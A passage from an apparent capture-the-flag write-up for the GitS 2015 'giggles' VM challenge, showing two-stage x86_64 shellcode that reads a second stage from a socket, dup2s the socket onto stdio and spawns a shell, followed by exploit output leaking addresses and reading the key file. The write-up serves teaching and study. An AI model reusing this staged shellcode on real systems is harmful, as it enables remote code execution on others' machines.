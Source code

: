 The way function arguments work in our little VM is that they are copied verbatim
into the registers before the function executes. I.e. argument 0 goes into register 0
etc.  It is slightly annoying that we have only 9 arguments that we can pass, so
our stage 1 shellcode can only have 28 bytes. We use a `read` syscall to load stage 2
right after stage1:

{% highlight python %}
stage1 = x86_64.assemble("""
    push 4   ; this is the socket fd
    pop rdi
    mov rsi, {buf}
    push 0xff
    pop rdx
    mov rax, 0
    syscall
    """.format(buf=buf+28))
stage1 += "\x90"*(28 - len(stage1))
{% endhighlight %}

And we choose to also reuse the socket file descriptor for our final shell:

{% highlight python %}
stage2 = (
    # this code just calls dup2(rdi,0); dup2(rdi,1); dup2(rdi,2)
    x86_64_shellcode.dup2_rdi +
    # and then spawns a shell
    x86_64_shellcode.shell
)
assert len(stage2) <= 0xff
{% endhighlight %}

The [final exploit](https://github.com/kitctf/writeups/blob/master/gits2015/giggles/exploit.py)
in action:

    $ python2 exploit.py
    [*] register base = 0x7fffb7b91900
    [*] exe base = 0x7fef16437000
    [*] jit buffer = 0x7fef16431000
    [*] Enjoy your shell :)
    ls
    client.py
    giggles
    giggles.c
    key
    cat key
    I can't think of anything creative to put in here right now

And yes, it used to give you the flag during the contest :)
